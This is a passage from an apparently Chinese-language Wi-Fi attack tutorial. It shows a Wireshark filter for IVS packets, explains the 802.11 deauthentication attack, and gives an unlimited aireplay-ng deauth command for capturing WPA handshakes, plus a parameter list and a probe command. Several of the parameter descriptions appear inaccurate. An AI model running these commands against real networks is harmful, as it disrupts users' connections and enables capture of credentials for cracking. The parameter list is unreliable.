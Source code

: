 #### 在 Wireshark 中通过查看数据包的协议头来区分 IVS 数据包

可以通过显示过滤器来筛选出 IVS 数据包。 IVS 数据包通常与特定的协议头相关联，使用过滤器可以帮助你仅显示特定类型的数据包。

对于 IVS 数据包，可以使用以下过滤器来查找：

```sh
wlan.fc.type_subtype == 0x08
```

这个过滤器会显示所有类型为 0x08 的 WLAN 数据帧。在无线数据帧中，IVS 数据包通常会使用这种特定的类型标识。你可以在 Wireshark 中应用这个过滤器来筛选出 IVS 数据包，以便确定确实获取了正确的包。


### 2、攻击 

#### aireplay-ng

aireplay-ng 是 Kali Linux 系统中的一个无线攻击工具，可以用于注入数据包、生成恶意流量以及进行身份伪装等多种攻击。通过使用不同的参数，您可以选择不同的攻击方式和目标，

Deauth 攻击是一种用于无线网络的攻击方式。

原理是利用了802.11 协议中的漏洞，攻击者通过向无线网络设备发送 Deauthentication 数据包来干扰该设备的正常链接，中断正常用户设备与 Wi-Fi 网络之间的通信的，迫使正常用户重新连接Wi-Fi 网络，利用这一流程来抓取包含握手过程的敏感数据包。

使用 Aireplay-ng 工具来执行 Deauth 攻击

```
aireplay-ng -0 0 -a <WLAN BSSID> wlan0mon 
```

常用的 Aireplay-ng 参数：

```
-0：指定使用 Deauth 攻击
	-0 0 （后面的0表示攻击次数，0为无限次）
-1：进行身份欺骗攻击
-2：对 WPA/WPA2 加密方式的网络进行攻击
-3：生成 ARP 请求并重放流量
-4：以混杂模式发送关联请求和数据包
-5：生成特定类型的数据包
-6：生成 Deauth 攻击流量
-7：生成广播 ARP 请求
-9：生成 RTS 和 CTS 数据包来消耗 AP 和客户端上的 CPU

-a：指定要攻击的目标网络的 BSSID
-c：指定要攻击的目标设备的 MAC 地址
-e：指定要攻击的目标网络的 SSID
wlan0mon 是要使用的网卡名称。
```


还有一个常用的操作是，使用 aireplay-ng 向某个 AP 发送大量的探测请求，以便跟踪设备的位置或收集周围网络的信息。

以下命令将向名称为 wlan0mon 的网卡发送探测请求，以查询周围可用的无线网络：

```
aireplay-ng -9 wlan0mon
```
